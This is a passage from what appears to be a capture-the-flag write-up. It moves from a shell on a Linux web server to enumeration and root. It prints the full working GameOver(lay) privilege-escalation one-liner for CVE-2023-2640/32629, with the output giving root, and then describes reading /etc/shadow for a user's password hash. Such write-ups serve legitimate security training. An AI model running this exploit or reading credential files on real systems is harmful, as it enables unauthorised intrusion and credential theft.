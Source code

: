 We then run `script /dev/null -c /bin/bash ` to create a new PTY for more stable shell.

## Lateral Movement

With the knowledge that the host system is a Windows machine, we look for a way to escape this container or virtual machine.

### Linux Enumeration

Checking OS and kernel.

```shell
www-data@webserver:/var/www$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
www-data@webserver:/var/www$ uname -a
uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

We identify following vulnerability 

https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a

https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/

https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main

Executing the payload and we get root access.

```shell
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
</var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
whoami
root
```

Checking the `/etc/shadow` we find user drwilliams and the hash.
